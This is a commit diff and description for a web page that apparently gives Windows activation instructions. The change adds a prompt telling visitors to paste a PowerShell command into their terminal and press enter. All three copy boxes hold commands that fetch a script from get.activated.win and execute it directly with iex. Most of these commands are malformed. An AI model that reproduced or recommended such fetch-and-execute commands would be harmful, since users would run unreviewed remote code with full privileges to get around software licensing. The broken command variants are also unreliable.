

Before and after one commit to pratik11500/window-activate, a website: page public/index.html in a window 1280 px wide. Shown: the part 88-703 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -22,6 +22,7 @@
           <h2 id="step1">Method 1 — PowerShell</h2>
           <p class="muted"><b>1.</b> <b>Open PowerShell</b><br>Click the <b>Start Menu</b>, type <code>PowerShell</code>, then open it.</p>
           <div style="margin-top:10px">
+            <p><b>Copy and paste the code below, then press enter.</b></p>
             <input type="text" class="copy-input" value="this irm https://get.activated.win | iex" readonly />
             <input type="text" class="copy-input" value="this start https://get.activated.win | iex" readonly />
             <input type="text" class="copy-input" value="this invoke https://get.activated.win | iex" readonly />
```
